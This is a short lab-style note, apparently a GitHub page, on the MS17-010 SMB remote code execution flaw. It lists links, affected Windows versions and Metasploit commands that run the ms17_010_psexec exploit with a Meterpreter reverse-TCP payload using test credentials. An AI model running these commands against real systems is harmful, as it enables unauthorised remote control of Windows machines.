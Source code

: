 
MS17-010  |  SMB Remote Windows Code Execution

https://www.youtube.com/watch?v=JHmGibFL6p8

--------------

MS17-010 SMB Remote Windows Code Execution

https://www.cvedetails.com/cve/cve-2017-0143

https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_psexec

--------------

This module will exploit SMB with vulnerabilities in MS17-010 to achieve a write-what-where primitive. This will then be used to overwrite the connection session information with as an Administrator session.

Affected Windows OS:

    Microsoft Windows 10
    Microsoft Windows 8.1
    Microsoft Windows 7 SP1
    Microsoft Windows Server 2008 R2
    Microsoft Windows Server 2012 R2
    Microsoft Windows Server 2016

--------------

1. For testing purposes, we need to create a new user account

Username: Test

Password: Test123$%^

2. Exploit
```
> use exploit/windows/smb/ms17_010_psexec

> set payload windows/meterpreter/reverse_tcp

> set SMBUser Test
> set SMBPass Test123$%^

> exploit
```

